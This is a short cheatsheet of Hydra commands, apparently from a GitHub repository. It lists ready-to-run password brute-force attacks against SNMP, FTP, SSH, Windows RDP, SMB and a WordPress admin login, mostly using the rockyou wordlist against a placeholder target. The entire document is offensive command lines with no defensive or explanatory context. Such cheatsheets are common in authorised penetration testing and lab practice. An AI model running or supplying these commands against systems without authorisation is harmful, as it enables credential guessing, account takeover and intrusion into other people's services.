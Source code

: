 # Hydra Brute Force Cheatsheet
## Hydra brute force against SNMP
	hydra -P password-file.txt -v $ip snmp	
##	Hydra FTP known user and rockyou password list
	hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp	
##	Hydra SSH using list of users and passwords
	hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh	
## Hydra SSH using a known password and a username list
	hydra -v -V -u -L users.txt -p "password" -t 1 -u $ip ssh	
## Hydra attack Windows Remote Desktop with rockyou
	hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip	
## Hydra brute force SMB user with rockyou:
	hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb	
## Hydra brute force a Wordpress admin login
	hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'	